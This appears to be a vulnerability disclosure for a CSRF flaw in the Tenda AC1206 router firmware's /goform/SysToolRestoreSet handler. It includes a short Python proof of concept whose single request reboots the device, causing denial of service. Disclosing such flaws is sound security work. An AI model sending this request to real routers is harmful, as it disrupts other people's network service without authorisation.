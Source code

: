 Affect device: Tenda-AC1206 US_AC1206V1.0RTL_V15.03.06.23_multi_TD01(https://www.tenda.com.cn/download/detail-2766.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SysToolRestoreSet` page which influences the lastest version of Tenda-AC1206 US_AC1206V1.0RTL_V15.03.06.23_multi_TD01 (https://www.tenda.com.cn/download/detail-2766.html)

The vulnerability exists in the file `/bin/httpd` , function **fromSysToolRestoreSet** .

![1](img/2-1.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
import requests

url = "http://192.168.23.133/goform/SysToolRestoreSet"

r = requests.get(url)

print(r.content)
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![1](img/2-2.png)

